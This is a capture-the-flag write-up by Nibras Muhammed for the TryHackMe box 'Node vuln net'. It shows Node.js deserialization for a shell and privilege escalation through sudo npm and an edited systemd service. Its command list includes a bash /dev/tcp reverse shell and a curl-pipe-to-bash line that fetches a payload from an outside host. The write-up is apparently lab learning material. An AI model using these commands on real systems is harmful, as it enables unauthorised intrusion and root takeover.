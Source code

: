 # 21. Node vuln net 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**
node
node express
#other/GAtactics 
#boxtype/hard
#category/addtools
nodejs 
[Reffer here](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
Maintaining a supershell
#other/richResource 


## Gaining Access 😉

- gobuster bruteforce
- cookie found even without we login
- decoded with smart decode
- further enumeration, it has been found that express is vulnerable :unserialised
- usind node revshell generator, from github. generated a reverse shell
- serialised with node rev.js
- used it as cookie, forwarded with burpsuite
- got a reverseshell in listening port



## Maintaining Access 🥷
- sudo -l
- found /usr/bin/npm can be run
- gtfobin and searched /usr/bin/npm
- mkdir /dev/shm/exploit
- executed /exploit as another user: reffer [[#Important commands 🔥]]-> 5
- sudo -l and find [[#Important commands 🔥]]->6
- found Unit=vulnnet-job.service and another file called vulnnet-job.service
- which has GUID permission and serv-manage is the group
- edited job.service [[#Important commands 🔥]]->8
- shell.sh is script for reverse shell in bash
- excute `sudo -u root /bin/systemctl start vulnnet-auto.timer`
- on listened port 2222: we got root

## Important commands 🔥
1. to serialise `node revshell.js`
2. maintain super shell 
	```
	script /dev/null -c bash
	suspend process with cntl z
	stty raw -echo; fg
	reset
	export TERM=xterm-color
	export SHELL=bash
	clear
	
	stty cols 200
	stty rows 50
	```
3. first from gtfobin/npm
	```js
	echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
	```
4. creating package
	```
	echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json
	```
5. running exploit as another user
	```js
	sudo -u serv-manage /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i
	```
6. find
	```
	find  / -type f -name 'vulnnet-auto.timer' 2>/dev/null
	```
7. bash reversetcp
	```
	bash -i &>/dev/tcp/10.9.229.254/2222 <&1
	```
8. inside job.service
	```
	/bin/bash -c 'curl http://10.9.229.254:8080/shell.sh | bash'
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- serailising 
- gtfobin
- guid permission


--------------------------------
**By Nibras Muhammed** 🤓🖥️






